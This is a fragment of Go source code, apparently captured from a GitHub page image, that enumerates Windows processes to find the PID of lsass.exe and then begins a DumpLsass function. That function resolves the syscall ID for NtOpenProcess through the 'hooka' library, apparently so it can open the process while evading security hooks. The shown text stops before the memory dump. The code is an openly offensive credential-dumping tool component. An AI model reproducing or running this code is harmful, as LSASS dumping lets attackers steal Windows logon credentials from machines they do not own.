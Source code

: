 ```go
  for {
    if e.ExeFile[end] == 0 {
      break
    }
    end++
  }

  return WindowsProcess{
    ProcessID:       int(e.ProcessID),
    ParentProcessID: int(e.ParentProcessID),
    Exe:             syscall.UTF16ToString(e.ExeFile[:end]),
  }
}

func FindLsassPid() (int, error) {
  const TH32CS_SNAPPROCESS = 0x00000002

  handle, err := windows.CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
  if err != nil {
    return 0, err
  }
  defer windows.CloseHandle(handle)

  var entry windows.ProcessEntry32
  entry.Size = uint32(unsafe.Sizeof(entry))

  err = windows.Process32First(handle, &entry)
  if err != nil {
    return 0, err
  }

  results := make([]WindowsProcess, 0, 50)
  for {
    results = append(results, newWindowsProcess(&entry))

    err = windows.Process32Next(handle, &entry)
    if err != nil {
      // Check if there aren't more processes
      if err == syscall.ERROR_NO_MORE_FILES {
        break
      }

      return 0, err
    }
  }

  // Iterate over all processes
  for _, proc := range results {
    // Check if process name is lsass.exe
    if proc.Exe == "lsass.exe" {
      return proc.ProcessID, nil // Return PID
    }
  }

  return 0, errors.New("lsass.exe process not found!")
}

func DumpLsass(pid int, output string) (error) {
  // Get syscall ID
  NtOpenProcess, err := hooka.GetSysId("NtOpenProcess")
  if err != nil { // Handle error
    return err
  }
```